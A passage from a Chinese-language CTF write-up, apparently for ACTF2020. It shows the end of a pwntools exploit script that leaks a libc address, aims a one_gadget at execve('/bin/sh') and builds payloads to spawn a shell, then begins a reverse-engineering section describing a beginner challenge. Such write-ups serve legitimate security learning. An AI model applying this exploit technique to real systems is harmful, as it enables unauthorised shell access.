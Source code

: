```python
show(-16)
data = rc()
stderr = uu64(data[448+17:448+6+17])
libc_base = stderr - libc.sym['_IO_2_1_stderr_']
info_addr('libc_base',libc_base)

if is_local:
    one_gadget = libc_base + 0x106ef8
if is_remote:
    one_gadget = libc_base + 0xf66f0
    #  0xf66f0 execve("/bin/sh", rcx, [rbp-0xf8])
    #constraints:
    #  [rcx] == NULL || rcx == NULL
    #  [[rbp-0xf8]] == NULL || [rbp-0xf8] == NULL

# debug()

if is_local:
    payload = p64(stderr)*44+p64(stderr+7936)+p64(stderr)*7+p64(0xffffffff)+p64(stderr+0x1000)*400+p64(one_gadget)*100
    #                                  1                           -1          cmp rax,rcx               func
if is_remote:
    payload = p64(stderr)*7+p64(one_gadget)+p64(stderr)*10+p64(stderr+4672)+p64(stderr)*6+p64(0xffffffff)+p64(stderr)*31+p64(stderr+8)+p64(0)*200
    #                             func                               1                            -1                           rbp
mod(-16,payload)

p.interactive()
```

------

# Re

re题目都比较有意思，不过还是剩了两道题没做，有一到题pwn和re的结合体，然鹅并没有看懂出题人什么意思...还有一道TEA加密，唉，一看到密码就脑壳疼，果断放弃...

## Here_you_are

 - 题目描述：

   > This is your flag. Here you are.
   > IDA and OD are really my friends. Do you want to play with them too?

 - 题目地址：[Sign_up.exe](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/re/Here_you_are/Sign_up.exe)

 - 考察点：没有

 - 难度：入门
